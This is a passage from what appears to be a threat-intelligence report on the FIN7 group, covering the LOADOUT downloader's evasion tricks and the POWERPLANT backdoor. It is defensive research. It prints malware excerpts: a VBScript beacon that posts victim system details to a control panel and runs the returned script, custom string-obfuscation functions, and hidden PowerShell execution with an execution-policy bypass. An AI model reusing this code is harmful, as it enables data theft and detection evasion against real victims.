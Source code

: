backdoor POWERPLANT, providing tertiary access:powershell.exe -ex bypass -f cube.ps1FIN7 then attempted to steal credentials and further compromise the victims’ environment with limited success, as the client was able to respond and quickly remediate with the advantage of Managed Defense responders.A unique aspect of this specific intrusion perfectly highlighted the challenges of technical attribution for cybercriminal threats: Between the two days of FIN7 operations on the victim system, FIN12 was also active on the same victim for multiple hours using the same RDP account, but much different infrastructure and tradecraft, attempting to install BEACON using the WEIRDLOOP in-memory dropper before the intrusion was remediated.FIN7’s EvasionAmong FIN7’s historical trademarks were their creative obfuscation and fast development of evasive techniques. This is still the case, with FIN7 first stage droppers and downloaders being heavily obfuscated. LOADOUT in particular, due to its wide distribution in opportunistic campaigns, has been through several iterations meant to improve evasion.The initial obfuscation mechanism was basic but effective at evading static detections: the malicious code was interspersed with random junk code (Figure 9). After a few months of successful campaigning, AV detection engines improved coverage of the downloader. To get around this, and to send a message, LOADOUT developer(s) broke up the beacon suspected to be used in detection signatures by simply inserting “FUCKAV” into the strings (Figure 8).Figure 8: System survey information sent as beacon by LOADOUTdata = "id=" & get_id() & "&FUCKAVtype=put" & get_computer_info("") & "&DomainHosts=" & count_domain_hosts() & "&UserName=" & usFUCKAVername & "&LogicalDrives=" & get_grivers() & "&SystemInfo=nothing&SoftwareInfo=nothing&NetworkInfo=nothingFUCKAV&ProcessList=" & get_processlist() & "&DesktopFileList=" & get_desktopfiles() & "&DesktopScreenshFUCKAVot=nothing&WebHistory=nothing&stype=vbs"response = send(panel_url, data)if response = "okFUCKAV" then js = send(panel_url, "") run_js(js)end ifFUCKAVFigure 9: LOADOUT obfuscationkiki=ado.ReadText' OE5QAJ2VaFCK F5 Dim yiupsyiups = "UTo"WScript.Echo("   error   ")kok = replace(kiki, "FUCKAV", "")ulpo = "12"aoso = year("01/07/12")if right(aoso, 2) = ulpo thenexecute("WScript.Echo(""   file is corrupted   ""):" & kok)end if'hello bitchwIndeed, the developer(s) was correct to be suspicious that these strings were being used for detection. By pivoting on the beacon, we discovered a new, work-in-progress variant of LOADOUT submitted to VirusTotal (MD5: 485b2a920f3b5ae7cfad93a4120ec20d), detected by only one engine (Figure 10). Two hours later, a new version was submitted (MD5: 012e7b4d6b5cb8d46771852c66c71d6d), this time with the offending PowerShell command obscured through their custom obfuscation mechanism (Figure 11).Figure 10: PowerShell command before obfuscation    objTS.WriteLine(TextCrypt)    objTS.Close     pwsh_command = "powershell.exe -executionpolicy bypass -file " & FileName & ".ps1"    objWSH.Run pwsh_command, 0, True    FSO.DeleteFile FileName & ".ps1"Figure 11: PowerShell command obfuscation                  Text1 = "/3/3.1/2.1,7/2/2.0/3+4+5/4/2*3,7.0,7/2/2.1/4.0,6/3/3.0/3.0+5/4+5-9/4.1+5/4/3*3,7.0,6/3/2*3272327272412292326241618252310112117262125222518252429242516261416272214202710112212232310"                  TextCrypt = Encryption(MakeCryptoText(TextUnShifter(Text1)), False)     pwsh_command = TextCrypt & FileName & ".ps1"    objWSH.Run pwsh_command, 0, True    FSO.DeleteFile FileName & ".ps1"FIN7 actors have historically tested their tools against public repositories to check static detection engine coverage. It is likely that in this case, they were testing the strength of their custom obfuscation. This new and improved version of LOADOUT emerged five months later. It was refactored to add multiple layers of obfuscation, including interspersed Bible verses as filler text, and string obfuscation through a custom mechanism (Figure 12).Figure 12: LOADOUT custom string obfuscationPrivate Function GetShiftKey()On Error Resume NextSet Key = CreateObject("Scripting.Dictionary") l = Len(CryptoKey)i1 = 0    With Key        For i = 1 To l            s = Mid(CryptoKey, i, 1)            n = (Asc(s) Mod 8) + 1            If Not .Exists(n) Then                .Add n, n                i1 = i1 + 1            End If            If i1 = 9 Then Exit For        Next        If i >= l And i1 < 9 Then            For i = 1 + 1 To 8                If Not .Exists(i) Then                    .Add i, i                End If            Next        End If        For i = 1 To 8            GetShiftKey = GetShiftKey + .Items()(i)        Next    End WithEnd Function Private Function TextShifter(txt)    Dim nKeys(), out()        Key = GetShiftKey    n = Len(Key)    If n = 0 Then Exit Function    l = Len(txt)    m = -Int(-l / n)        ReDim nKeys(n)     For i = 1 To n        s1 = Mid(Key, i, 1)        For j = 1 To n            s2 = Mid(Key, j, 1)            If s1 > s2 Or (s1 = s2 And j <= i) Then                nKeys(i) = nKeys(i) + 1            End If        Next    Next        ReDim out(n * m)    For i = 1 To Len(txt)        out(nKeys((i - 1) Mod n + 1) * m + (i - 1) \ n - m + 1) = Mid(txt, i, 1)    Next    TextShifter = Join(out, "")End FunctionPOWERPLANT: FIN7’s PowerShell WorkhorseFIN7 has leveraged multiple methods of initial and secondary access into victim networks including phishing, compromising third-party systems, Atera agent installers, GoToAssist, and RDP. In a recent case, FIN7 actors compromised a website that sells digital products and modified multiple download links to point to an Amazon S3 bucket hosting trojanized versions, containing an Atera agent installer. This remote management tool was later used to deploy POWERPLANT to the victim system. This was the first time Mandiant observed FIN7 leverage